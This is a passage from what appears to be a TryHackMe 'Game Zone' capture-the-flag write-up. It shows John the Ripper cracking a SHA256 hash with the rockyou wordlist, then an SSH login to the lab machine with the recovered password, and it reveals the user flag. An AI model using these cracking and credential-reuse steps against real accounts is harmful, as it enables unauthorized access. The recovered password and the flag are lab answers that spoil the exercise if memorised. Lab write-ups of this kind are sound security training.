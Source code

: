 - **hash.txt** - contains a list of your hashes (in your case its just 1 hash)
- **--wordlist** - is the wordlist you're using to find the dehashed value
- **--format** - is the hashing algorithm used. In our case its hashed using SHA256.

What is the de-hashed password?

```
ali@kali:~/CTFs/tryhackme/Game Zone$ john agent47.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2020-11-18 23:25) 1.136g/s 3351Kp/s 3351Kc/s 3351KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

`videogamer124`

Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?

```
kali@kali:~/CTFs/tryhackme/Game Zone$ ssh agent47@10.10.163.58
The authenticity of host '10.10.163.58 (10.10.163.58)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.163.58' (ECDSA) to the list of known hosts.
agent47@10.10.163.58's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ ls -la
total 28
drwxr-xr-x 3 agent47 agent47 4096 Aug 16  2019 .
drwxr-xr-x 3 root    root    4096 Aug 14  2019 ..
lrwxrwxrwx 1 root    root       9 Aug 16  2019 .bash_history -> /dev/null
-rw-r--r-- 1 agent47 agent47  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 agent47 agent47 3771 Aug 14  2019 .bashrc
drwx------ 2 agent47 agent47 4096 Aug 16  2019 .cache
-rw-r--r-- 1 agent47 agent47  655 Aug 14  2019 .profile
-rw-rw-r-- 1 agent47 agent47   33 Aug 16  2019 user.txt
agent47@gamezone:~$ cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```
